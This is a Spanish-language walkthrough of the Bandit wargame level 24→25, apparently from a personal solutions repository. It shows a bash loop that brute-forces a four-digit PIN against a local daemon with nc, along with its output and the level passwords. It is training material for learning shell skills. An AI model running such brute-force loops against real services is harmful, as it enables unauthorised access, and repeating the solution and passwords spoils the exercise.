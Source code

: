 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
bandit24
**Contraseña:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Solución
```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
## Notas adicionales

**grep -v** - filtra las líneas que contengan una palabra que le especifiquemos.
**for i in {0000..9999}:** Este bucle `for` itera desde el número `0000` hasta el `9999`, generando todos los números de 4 dígitos, incluyendo los ceros iniciales (por ejemplo: 0000, 0001, 0002, ..., 9999).
**do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done**: En cada iteración del bucle, se ejecuta el comando `echo` para imprimir la cadena `"gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"` seguida de un número de 4 dígitos (el valor de la variable `i`).
**nc localhost 30002**: El comando `nc` se utiliza para enviar datos a través de la red. En este caso, está enviando la salida del `echo` al servidor que está escuchando en `localhost` (la propia máquina) en el puerto `30002`.


## Referencias